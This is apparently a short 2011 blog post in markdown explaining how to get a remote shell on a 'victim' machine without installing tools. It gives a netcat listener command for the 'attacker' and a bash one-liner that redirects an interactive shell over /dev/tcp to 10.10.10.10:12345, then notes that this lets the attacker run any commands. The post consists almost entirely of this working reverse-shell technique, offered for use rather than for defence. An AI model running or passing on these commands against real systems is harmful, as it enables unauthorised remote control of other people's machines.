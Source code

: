 ```yaml
---
title: "remote shell without any tools"
date: "2011-11-25"
slug: "2011/11/25/remote-shell-without-any-tools"
categories:
  - networking
  - security
cover: "/images/hacking.jpg"
---
```


Here's a method for opening up a TCP connection from one host to another without needing to install any tools.

From the attacker machine, wait for a connection

Wait for connections

```bash 
nc -nlp 12345
```

From the victim

Call home

```bash
/bin/bash -i > /dev/tcp/10.10.10.10/12345 0<&1 2>&1
```

The victim code will open up a connection the the attacker, allowing the attacker to run whatever bash commands he wants. All this without installing anything on the victim. Spooky.

